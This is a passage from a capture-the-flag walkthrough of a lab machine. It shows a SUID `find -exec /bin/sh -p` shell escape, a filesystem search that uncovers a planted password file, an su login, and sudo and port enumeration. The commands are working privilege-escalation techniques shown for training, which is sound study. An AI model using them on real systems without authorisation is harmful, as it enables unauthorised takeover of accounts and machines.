 `find`. That's one of the easiest binaries to exploit through SUID, with a shell obtained through this command: `find -exec /bin/sh -p \; -quit`. Who are we here? `id` will tell us just that.
```
uid=33(www-data) gid=33(www-data) euid=1000(talos) groups=33(www-data)
```

Talos is who we are. There's a file `note.txt` in their home directory, which reads like this:
```
Congratulations! You have made it this far thanks to the manipulated file I left you, I knew you would make it!  
Now we are very close to finding this false God Elohim.  
I left you a file with the name of one of the 12 Gods of Olympus, out of the eye of Elohim ;)  
The tool I left you is still your ally. Good luck to you.
```

Now we need to find a file (with `find` I presume). It's telling us to search the file system for a file with a Greek god as its name. I decided to translate these names into Spanish, as the `archivos` folder in the web directory was a hint that some parts of this box were in the language. The list of Greek gods went as follows:
```
Afrodita, Apolo, Zeus, Hera, Poseidon, Ares, Atenea, Hermes, Artemisa, Hefesto, Demeter, Hestia
```

Searching for any file with one of these names, we run the command `find / -iname *Afrodita* 2>/dev/null` to search for the first one case insensitively. One result comes up: `/etc/selinux/Afrodita.key`. This must be a key of some kind, and it's a text file reading:
```
Here is my password:  
Hax0rModeON  
  
Now I have done another little trick to help you reach Elohim.  
REMEMBER: You need the access key and open the door. Anyway, he has a bad memory and that's why he keeps the lock coded and hidden at home.
```

Could this be our password? We never got it when we elevated to the talos user through SUID, so maybe it is. Trying it out with `su`, it is their password. I then check if `sudo` permits us anything under the talos user. After a swift `sudo -l`, it does (no password's even required).
```
talos@principle:~$ sudo -l  
Matching Defaults entries for talos on principle:  
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty  
  
User talos may run the following commands on principle:  
   (elohim) NOPASSWD: /bin/cp
```

With `cp`, we're able to copy any file we want into elohim's home directory. It's important to note here that SSH is running, but inaccessible from the outside.
```
talos@principle:~$ ss -lntp  
State                Recv-Q               Send-Q                             Local Address:Port                             Peer Address:Port              Process                 
LISTEN               0                    511                                      0.0.0.0:80                                    0.0.0.0:*                                         
LISTEN               0                    128                                      0.0.0.0:3445                                  0.0.0.0:*                                         
LISTEN               0                    511                                         [::]:80                                       [::]:*                                         
LISTEN               0                    128                                         [::]:3445                                     [::]:*                                         
talos@principle:~$ nc 127.0.0.1 3445  
SSH-2.0-OpenSSH_9.2p1 Debian-2
```
